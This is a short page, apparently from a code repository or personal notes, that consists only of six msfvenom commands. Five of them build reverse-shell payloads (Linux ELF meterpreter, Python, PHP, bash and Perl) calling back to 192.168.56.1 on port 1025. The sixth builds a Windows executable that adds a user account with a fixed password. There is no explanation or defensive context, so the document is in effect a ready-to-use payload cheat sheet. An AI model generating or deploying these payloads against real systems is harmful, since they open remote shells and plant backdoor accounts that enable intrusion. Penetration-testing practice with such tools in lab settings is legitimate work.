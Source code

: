 ```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=1025 -f elf > shell3.elf
```

```shell
msfvenom -p windows/adduser USER="invitado69" PASS="28veintenueve" -f exe > adduser.exe
```

```shell
msfvenom -p cmd/unix/reverse_python LHOST=192.168.56.1 LPORT=1025 -f raw > shell4.py
```

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.56.1 LPORT=1025 -f raw > shell5.php
```

```shell
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.56.1 LPORT=1025 -f raw > shell6.sh
```

```shell
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.56.1 LPORT=1025 -f raw > shell7.pl
```
